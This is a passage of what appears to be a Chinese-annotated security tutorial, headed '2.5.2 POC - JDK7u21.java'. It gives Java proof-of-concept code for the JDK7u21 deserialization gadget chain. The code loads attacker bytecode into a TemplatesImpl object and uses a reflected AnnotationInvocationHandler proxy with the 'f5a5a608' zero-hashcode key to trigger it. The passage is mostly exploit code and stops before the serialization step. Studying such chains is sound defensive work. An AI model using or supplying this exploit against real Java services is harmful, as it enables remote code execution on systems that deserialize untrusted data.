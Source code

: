 ### 2.5.2 POC - JDK7u21.java
📒 JDK7u21.java
```java
package org.example.deserialization;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
//import org.apache.commons.codec.binary.Base64;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        // 生成恶意 TemplateImpl 对象
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
        });
        setFieldValue(templates, "_name", "xxx");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        String zeroHashCodeStr = "f5a5a608";

        // 实例化一个map，并添加Magic Number为key，也就是f5a5a608，value先随便设置一个值(避免重复调用恶意类)
        HashMap<String, Object> map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        // 通过反射实例化AnnotationInvocationHandler类
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);

        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中，替换掉map里之前的元素
        map.put(zeroHashCodeStr, templates);

        // 这个for循环只是用来看看map里现在有什么元素，可以去掉
//        for (Map.Entry<String, Object> entry : map.entrySet()) {
//            String key = entry.getKey();
//            Object value = entry.getValue();
//            System.out.println("Key: " + key + ", Value: " + value);
//        }

```